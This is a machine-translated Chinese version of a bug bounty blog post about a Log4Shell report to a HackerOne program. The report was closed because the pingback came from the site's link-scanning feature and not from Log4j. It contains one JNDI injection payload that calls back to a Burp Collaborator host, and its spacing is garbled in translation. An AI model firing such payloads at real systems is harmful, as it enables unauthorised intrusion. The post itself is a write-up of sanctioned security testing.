








# 为“虫子赏金猎人”澄清 Log4J 的事实

> 原文：<https://infosecwriteups.com/facts-to-clear-about-log4j-for-bug-bounty-hunters-f58e04eb025?source=collection_archive---------0----------------------->

## 大家好，

在我的第一个[博客](/my-first-valid-bugs-8fa698f6aebe)中，我提到我将会发布一个关于我的每一个发现的博客。我还收到了 DMs，询问我最近在 P1 发现的细节/方法。因为我现在是本科的最后一年，我正在做全职的 bug 赏金猎人，学习一些新概念，这就是为什么我没有及时发表博客文章。很抱歉:)

从明年 1 月起，将开始上传所有博客。但是这个博客对目前的情况很有意义。

# 让我们开始吧。

2 天前我分享了我的 Log4j Hackerone 报告的截图。之后我在 Instagram 上收到了很多 DM 请求一些帮助，关于 Log4j 的指导。

我想澄清一些关于这个 bug 的疑惑和误解。

提交了 3 份关于 Hackerone 计划的报告:

1.  第一次报告:不适用，但 ***悬赏帮助他们排除故障***
2.  第二次报告:有效并授予奖金(与第一次报告相同的程序)
3.  第三次报告:长篇大论(不同的方案)

在这篇博客中，我们将只讨论**“第一次报告”**

众所周知，log4j 是最新的漏洞，在网站上找到 Log4j 的资源非常少。您可以在名称字段、UA 字符串、支持表单中的任何地方找到 Log4j..实际上是网站上的任何输入字段。

让我澄清一件事:**如果你从该公司的 IP 地址(而不是从谷歌或 AWS)得到 pingback，然后报告它，你不需要执行完整的 RCE。** ***(根据我到目前为止在 HackerOne 上的经验)***

该网站有一个创建自己的频道的功能，你可以在那里添加成员，可以发布信息，问题等。所以我提交了 Log4j 有效负载，包括我的 burp collaborator 链接，作为我的频道中的一个问题。

有效负载:$ { JNDI:LDAP://p1ry 70 m3 axtxo 2 qlpl 4 l 6 smgdm 3 as . burpcollaborator . net/a }

然后嘣！！对我来说，不是对公司:)

从公司的 IP 上得到 HTTP pingback。

HTTP Pingback 请求。

提交了报告。

然后公司找我要 UA string。

然后我提交了 UA 字符串，

用户代理:`Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0`

公司再次要求我提供概念验证视频。

之后，该公司要求我重新测试并捕捉视频，因为他们实现了某种算法或功能来跟踪这种活动。

我提交了视频 POC，经过一天的等待，他们得出结论，以 NA 的身份关闭此报告，并奖励我帮助他们排除故障。

读完这篇文章后，我心中有很多疑问，如果这不是 Log4j，那么这个有效载荷是如何触发的。我当时想:

然后我问他们这个问题，过了一段时间，另一个开发商来了，他回答说:

我真是个笨蛋:)

是因为链接抓取功能触发的。

然后我使用 Canary Log4shell 令牌再次测试，这次我得到了来自 AWS 主机的 pingback。

> 记住:只有当你从公司的 IP 地址得到回应时才报告。如果你从谷歌或 AWS 报告 pingback，他们会将其作为 NA 关闭，你的(AWS/谷歌 pingback)报告被接受为有效问题的可能性很小。

**那么这个来自谷歌/AWS 的 pingback 是怎么回事呢？别担心，我有这个。**

我在 LinkedIn 上的一个熟人 [Sanyam Kakkar](https://www.linkedin.com/in/sanyam-kakkar-82b6901a9/) 告诉了我这件事:

> *****您在报告中演示的有效负载确实是由 Log4Shell 触发的，但是它也包含一个字面上写的主机名。我们的系统经常扫描各种用户输入(例如聊天消息、电子邮件)中的主机名和 URL，通过 DNS 解析它们，并尝试获取 URL，例如，确定有效载荷是否是恶意的，或者消息本身是否应该被归类为垃圾邮件。我们认为这就是这里发生的事情。这是谷歌的行为，如果他们在产品的任何地方发现域名，就会对其进行 ping 操作。*****

**(黑客计划)公司的安全人员非常好。由于这是我的第一份 Log4j 报告，我从错误中学到了很多新东西，这对我很有帮助，并成功提交了 2 份有效的 Log4j 报告。**

> **本博客中的所有信息都是根据我的经验和错误。我对所有读者和 bug 猎人的谦卑请求，如果你有任何更正或其他信息，请随时评论或给我发短信，我会在博客中添加或修改。**

**随意连接:[**Linkedin**](https://www.linkedin.com/in/jaydev-ahire/)**[**Twitter**](https://twitter.com/cybor_j)****

*****(PS:请不要在 DM 里问赏金金额 n 这些东西)*****